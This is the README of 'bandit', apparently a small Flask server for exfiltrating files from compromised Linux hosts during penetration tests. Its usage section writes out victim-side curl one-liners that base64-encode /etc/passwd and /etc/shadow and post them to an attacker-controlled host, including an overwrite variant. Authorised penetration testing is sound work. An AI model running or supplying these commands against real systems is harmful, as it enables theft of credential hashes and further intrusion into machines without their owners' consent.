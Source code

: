# bandit
A quick and easy way to exfiltrate files

# purpose
Bandit is designed as a simple way to exfiltrate files during a penetration test without relying on dedicated tools on a compromised host. However, it can be used in any situation where uploads need to happen quickly and easily - for example, automated backup programs. 
While the server is written in python/flask, the uploads are handled through base64 and curl - both of which are nearly ubiquitous on most unix systems. This miniscule footprint means no file movement is needed to begin using bandit on any given linux-based system. The simplicity of the protocol also allows for custom programs to be written that leverage it - for example, a windows program could handle encoding and uploading the files. 

# usage
Attacker: ```python3 bandit.py [port]```

Victim: ```curl -d "passwd=$(base64 /etc/passwd)&shadow=$(base64 /etc/shadow)" http://yourip:port/```

It is important to use double quotes to allow bash to process reading the files and encoding them before upload

If you wish to overwrite the existing files, instead of failing to upload if they exist on the server, specify the /overwrite path. This will scribble over any existing files on the server that conflict with the attempted upload, so use with caution. Yes, path travesal checks are made before file IO

Victim: ```curl -d "passwd=$(base64 /etc/passwd)&shadow=$(base64 /etc/shadow)" http://yourip:port/overwrite```

Note that bandit supports multiple files uploaded at the same time. Simply add as many parameters as you wish, one for each file, in the following format:

[desired filename]=[base64 encoded contents]

The simplicity of the protocol makes it easy to use one-liners to upload files, or create custom wrapper scripts for more thorough uploads. 

